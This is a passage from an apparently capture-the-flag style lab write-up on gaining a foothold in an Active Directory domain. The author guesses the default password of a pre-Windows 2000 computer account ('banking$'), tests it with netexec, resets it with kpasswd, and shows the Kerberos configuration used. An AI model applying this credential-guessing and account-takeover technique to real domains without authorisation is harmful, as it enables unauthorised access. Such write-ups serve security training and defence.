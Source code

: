## Foothold

Digging into the following article gives us an idea of the way ahead. 

[TrustedSec: Diving Into Pre-Created Computer Accounts](https://www.trustedsec.com/blog/diving-into-pre-created-computer-accounts)

Essentially, if the computer account was created with the `Assign this computer account as a pre-Windows 2000 computer` option checked, the password will be the same as the computer name, except lowercase and without the "$" at the end.

We also find some useful information in a [Wayback archive](https://web.archive.org/web/20080205233505/http://support.microsoft.com/kb/320187). 

![](../images/screenshots/Pasted%20image%2020240704145857.png)

So in our case, we can test the `banking$` account with the password `banking`. Using `netexec`, I did get the `STATUS_NOLOGON_WORKSTATION_TRUST_ACCOUNT` error message described in the article. 

Working on the assumption that the `banking$` account was created as a pre-Windows 2000 computer, we can attempt to change the password for the `banking$` machine account

```console
➜  retro kpasswd banking$
Password for banking$@RETRO.VL:
Enter new password:
Enter it again:
Password changed.
```

Perfect! That worked, but please note that I needed to make some modifications to the `/etc/krb5.conf` file prior to changing the password. 

```console
➜  retro cat /etc/krb5.conf
[libdefaults]
        default_realm = RETRO.VL
        dns_lookup_realm = false
        ticket_lifetime = 24h
        renew_lifetime = 7d
        rdns = false
        kdc_timesync = 1
        ccache_type = 4
        forwardable = true
        proxiable = true


[realms]
        RETRO.VL = {
                kdc = DC.RETRO.VL
                admin_server = DC.RETRO.VL
                }
```
